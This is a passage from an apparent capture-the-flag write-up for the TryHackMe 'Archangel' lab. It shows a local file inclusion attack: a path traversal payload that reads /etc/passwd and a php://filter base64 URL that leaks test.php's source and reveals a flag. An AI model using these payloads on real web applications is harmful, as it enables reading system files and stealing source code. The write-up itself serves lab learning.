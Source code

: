 ```
mrrobot.php..//..//..//..//..//..//etc//passwd
```

However, this does not help us to get the 2nd flag. After this, I switched to the *simple php base64 filter*.  
We can just make a request directly in the browser and it will work just as easily :

![Php base64 filter](/img/posts/thm-archangel/base64.png)  

The complete url is:

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

So we are using **php://filter/convert.base64-encode/resource=** to select which file we want to encode in base64.

Now we can copy that base64 input and decode it. I used a simple *base64 -d* :  

```bash
echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+......" | base64 -d
```  
This reveals the source code of test.php with the visible flag :  

![Base64 decode, 2nd flag](/img/posts/thm-archangel/2nd_flag.png)  
